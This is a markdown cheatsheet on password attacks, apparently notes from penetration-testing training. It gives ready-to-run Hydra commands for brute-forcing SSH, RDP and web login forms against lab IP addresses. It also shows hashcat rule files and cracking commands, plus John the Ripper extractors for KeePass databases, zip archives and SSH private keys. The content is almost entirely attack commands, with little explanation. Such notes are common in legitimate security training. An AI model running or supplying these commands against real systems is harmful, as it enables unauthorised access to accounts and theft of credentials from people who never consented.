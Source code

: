 # Password Attacks Cheatsheet

Most common wordlists:

* `/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt`
* `/usr/share/wordlists/fasttrack.txt`

### Hydra

SSH Bruteforce

```bash
hydra -l george -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 2222
ssh://192.168.50.201
```

```bash
sudo hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://192.168.50.201
```
RDP Bruteforce

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

HTTP Login Form Bruteforce

```bash
hydra -l user -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

### Hash Cracking

Common rules 

**Rules can be found in `/usr/share/hashcat/rules/`**

```bash
kali@kali:~/passwordattacks$ cat demo1.rule
$1 c
$1
c
```

```bash
kali@kali:~/passwordattacks$ cat demo1.rule
$1 c $!
$1 c
$1 $!
c $!
$!
c
$1
```

```bash
kali@kali:~/passwordattacks$ cat demo3.rule
$1 c $!
$2 c $!
$1 $2 $3 c $!
```

Crack hashes with rules

```bash
hashcat -m 0 crackme.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -r demo3.rule --force
```

JohnTheRipper Hash Extractors

* *Keepass*
  ```bash
  keepass2john Database.kdbx > keepass.hash
  ```
* *Zip archive*
  ```bash
  zip2john archive.zip > archive.hash
  ```
* *SSH Key*
  ```bash
  ssh2john id_rsa > key.hash
  ```
   
KeePass Database Hash Crack

```bash
hashcat -m 13400 keepass.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

SSH Private Key Hash Crack

```bash
hashcat -m 22921 ssh.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Add rules to JohnTheRipper**

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >>
/etc/john/john.conf'
```